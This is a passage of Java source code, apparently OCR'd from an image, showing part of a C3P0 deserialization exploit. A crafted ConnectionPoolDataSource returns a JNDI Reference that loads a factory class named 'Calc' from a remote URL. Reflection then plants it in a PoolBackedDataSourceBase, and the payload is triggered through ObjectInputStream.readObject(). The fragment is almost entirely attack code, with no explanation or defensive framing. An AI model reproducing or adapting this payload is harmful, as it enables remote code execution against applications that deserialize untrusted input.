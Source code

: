 ```java
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static class notSerializable implements ConnectionPoolDataSource, Referenceable {

        String classFactory;
        String classFactoryLocation;

        public notSerializable(String classFactory, String classFactoryLocation) {

            this.classFactory = classFactory;
            this.classFactoryLocation = classFactoryLocation;
        }

        @Override
        public Reference getReference() throws NamingException {
            return new Reference(this.classFactory, this.classFactory, this.classFactoryLocation);
        }

        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }

        @Override
        public java.io.PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        @Override
        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        @Override
        public void setLogWriter(java.io.PrintWriter out) throws SQLException {
        }

        @Override
        public void setLoginTimeout(int seconds) throws SQLException {
        }

        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }

    public static void main(String[] args) throws Exception {

        PoolBackedDataSourceBase poolBackedDataSourceBase = new PoolBackedDataSourceBase(false);
        ConnectionPoolDataSource connectionPoolDataSource = new notSerializable("Calc", "http://localhost:1209/");
        Field field = poolBackedDataSourceBase.getClass().getDeclaredField("connectionPoolDataSource");
        field.setAccessible(true);
```